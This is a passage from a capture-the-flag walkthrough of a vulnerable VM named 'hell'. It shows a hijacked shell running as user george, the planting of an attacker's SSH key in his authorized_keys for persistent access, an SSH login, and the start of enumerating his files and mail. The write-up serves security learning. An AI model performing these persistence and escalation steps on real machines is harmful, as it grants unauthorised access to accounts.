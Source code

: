 ```bash George's permissions
milk_4_life@hell:~$ ./game
I'm listening
$ id
uid=1002(milk_4_life) gid=1002(milk_4_life) euid=1000(george) groups=1000(george),1002(milk_4_life)
$
```

Profit! We now have access to `george`'s home directory :) In order to make the next steps easier, I quickly generated a new ssh key pair using `ssh-keygen`, and added the contents of the resultant `id_rsa.pub` to `.ssh/authorized_keys`. Whats important to note in the below snippet is that the full path of `chmod` is used. If we don’t, we will be hitting the chmod we just fooled to get to this shell in the first place :D

```bash Adding ssh key to George's authorized_keys
$ id
uid=1002(milk_4_life) gid=1002(milk_4_life) euid=1000(george) groups=1000(george),1002(milk_4_life)
$ cd /home/george
$ mkdir .ssh
$ /bin/chmod 755 .ssh
$ cd .ssh
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3KB7V05tHJAWFavTgTK1dDIcUUVyUpZA3TYQhydNjeexWDeVzPNUGCo3/XZNgqw0QpaoX5eLm9k9OqxNyr7x5B6Rq2F7ykA0DHglbM4DLJDQRawHgoCzTwxBWAMva3HUbahounJFe9fOaECGZEsCmTF1462wTuZ/SYOO9lSHv38cO8b9nC5lteBz2An34+W/n9X1sxBAlDAHyXmAqJYpoE+gur+YX8j3WPNJbiBu3nVnvpDaR1BnvN1n74/yUtLYziT5Gt7lgRWiaDhzslR+46xbu/YmCyO03ztHhD/lD2JAcoEe43FKFUdh8ZGfBqCq0CbBB86KHhhLzV6QjLHjV root@kali" > authorized_keys
$ /bin/chmod 600 authorized_keys
```

Now we can SSH into the VM as `george`

```bash SSH Access as george
root@kali:~# ssh george@192.168.56.102 -i id_rsa
Linux hell 3.2.0-4-486 #1 Debian 3.2.57-3+deb7u2 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
No mail.
Last login: Sat Jul  5 19:26:25 2014
george@hell:~$
```

## becoming bazza
George's home directory had what looked like a TrueCrypt container `4.0M Jun 19 21:09 container.tc` in hes home directory. TrueCrypt appeared to be installed on the VM, and attempting to mount the container failed due to an invalid keyfile and or password.

`george` also had mail in `/var/mail`:

```bash George's Signup Mail
george@hell:~$ cat /var/mail/george/signup.eml
From: admin@rockyou.com
To: super_admin@hell.com
Subject: Account Activation
Date: 13th November 2009

Thanks for signing up for your account. I hope you enjoy our services.
george@hell:~$
```
